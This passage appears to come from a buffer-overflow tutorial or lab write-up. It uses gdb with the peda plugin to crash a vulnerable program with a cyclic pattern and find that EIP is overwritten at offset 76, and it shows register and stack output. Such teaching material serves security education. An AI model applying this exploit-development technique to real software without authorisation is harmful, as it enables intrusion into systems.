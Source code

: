 ```
  $ gdb ./vuln
```
First thing we want to do is to find out the size of the buffer that makes the
program crash. Now the good old way was to create patterns with loads of AAAA's
followed by BBBB's etc This was tiresome and tedious so some smart programmer
(longld on github) created [peda](https://github.com/longld/peda) which is a gdb
plugin to help with exploit development.

First we'll create a cyclic pattern and set it to an argument
```
  peda-gdb$ pattern create 100
  'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
  gdb-peda$ pset arg 'cyclic_pattern(100)'
  gdb-peda$ pshow arg 
  arg[1]: AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL
  gdb-peda$ run
   [----------------------------------registers-----------------------------------]
  EAX: 0x0 
  EBX: 0xb7fd1ff4 --> 0x1a0d7c 
  ECX: 0xffffffff 
  EDX: 0xb7fd38b8 --> 0x0 
  ESI: 0x0 
  EDI: 0x0 
  EBP: 0x65414149 ('IAAe')
  ESP: 0xbffff650 ("AJAAfAA5AAKAAgAA6AAL")
  EIP: 0x41344141 ('AA4A')
  EFLAGS: 0x210282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
  [-------------------------------------code-------------------------------------]
  Invalid $PC address: 0x41344141
  [------------------------------------stack-------------------------------------]
  0000| 0xbffff650 ("AJAAfAA5AAKAAgAA6AAL")
  0004| 0xbffff654 ("fAA5AAKAAgAA6AAL")
  0008| 0xbffff658 ("AAKAAgAA6AAL")
  0012| 0xbffff65c ("AgAA6AAL")
  0016| 0xbffff660 ("6AAL")
  0020| 0xbffff664 --> 0xbffff600 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
  0024| 0xbffff668 --> 0xbffff6f0 --> 0xbffff893 ("LC_PAPER=en_GB.UTF-8")
  0028| 0xbffff66c --> 0x0 
  [------------------------------------------------------------------------------]
  Legend: code, data, rodata, value
  Stopped reason: SIGSEGV
  0x41344141 in ?? ()
  gdb-peda$ 
```
As you can see a buffer of 100 chars crashed the program, lets use peda to find
out what exact offset in the buffer caused the crash
```
  $ gdb-peda$ pattern offset 0x41344141
  1093943617 found at offset: 76
```
Whay choose that hex value? well that was the walue of EIP when the program
crashed. We had overflowed the return address and the program tried to jump to
that address, we simply told peda to seacch for that byte pattern in the cyclic
pattern it had created for us ealier. PEDA told us that there are 76 characters
in the buffer before the return address gets overflowed.
